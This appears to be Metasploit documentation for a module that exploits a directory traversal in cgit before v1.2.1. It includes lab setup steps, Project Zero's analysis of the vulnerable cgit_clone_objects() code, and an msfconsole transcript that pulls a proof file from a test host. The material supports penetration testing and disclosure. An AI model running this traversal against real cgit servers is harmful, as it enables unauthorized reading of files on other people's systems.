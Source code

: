 ## Description

cgit before v1.2.1 has a directory traversal vulnerabiltiy when `cgitrc` has the `enable-http-clone` value set to 1. The directory traversal can be used to download files from the remote host. This module has been tested against cgit v1.1 running on Ubuntu 18.04.

## Vulnerable Application

[cgit before v1.2.1](https://git.zx2c4.com/cgit/)

### Installing cgit on Ubuntu 18.04 x64

1. `sudo apt install cgit` # [dependencies](https://git.zx2c4.com/cgit/tree/README) may have to be downloaded first
2. Modify `/etc/cgitrc` to have `enable-http-clone=1`. Example attached.
3. Add `.htaccess` file with rewrite rules to `/usr/lib/cgit/`. Example attached.
4. Add `cgit.conf` to `/etc/apache2/conf-enabled/`. Example attached.
5. Enable `rewrite.load` and `cgi.load` in apache2.
6. Create bare repo. `mkdir -p repo/test.git && cd repo/test.git && git init --bare`

Example files were only used for testing and are not secure or usable in non-testing environments.  These WILL make your system insecure, but will enable exploitation
by this module.

[cgit.conf](https://github.com/rapid7/metasploit-framework/files/2284678/cgit.conf.txt)

[cgitrc](https://github.com/rapid7/metasploit-framework/files/2284679/cgitrc.txt)

[.htaccess](https://github.com/rapid7/metasploit-framework/files/2284680/htaccess.txt)

### Vulnerability Details from Project Zero

There is a directory traversal vulnerability in cgit_clone_objects(), reachable when the configuration flag enable-http-clone is set to 1 (default):

```
void cgit_clone_objects(void)
{
    if (!ctx.qry.path) {
        cgit_print_error_page(400, "Bad request", "Bad request");
        return;
    }

    if (!strcmp(ctx.qry.path, "info/packs")) {
        print_pack_info();
        return;
    }

    send_file(git_path("objects/%s", ctx.qry.path));
}
```

send_file() is a function that simply sends the data stored at the given filesystem path out over the network.
git_path() partially rewrites the provided path and e.g. prepends the base path of the repository, but it does not sanitize the provided path to prevent directory traversal.

ctx.qry.path can come from querystring_cb(), which takes unescaped data from the querystring.

## Options

**REPO**

Git repository on the remote server. Default is empty, `''`.

## Verification Steps

1. `./msfconsole -q`
2. `set rhosts <rhost>`
3. `set targeturi <uri>`
4. `set repo <repo>`
5. `run`

## Scenarios

### Ubuntu 18.04 x64, cgit | 1.1+git2.10.2-3build1

```
msf > use auxiliary/scanner/http/cgit_traversal
msf auxiliary(scanner/http/cgit_traversal) > set rhosts 172.22.222.123
rhosts => 172.22.222.123
msf auxiliary(scanner/http/cgit_traversal) > set targeturi /mygit/
targeturi => /mygit/
msf auxiliary(scanner/http/cgit_traversal) > set repo test
repo => test
msf auxiliary(scanner/http/cgit_traversal) > set filepath /home/msfdev/proof.txt
filepath => /home/msfdev/proof.txt
msf auxiliary(scanner/http/cgit_traversal) > set verbose true
verbose => true
msf auxiliary(scanner/http/cgit_traversal) > run

[+] 172.22.222.123:80     - 
you found me!

[+] File saved in: /home/msfdev/.msf4/loot/20180813150517_default_172.22.222.123_cgit.traversal_235024.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

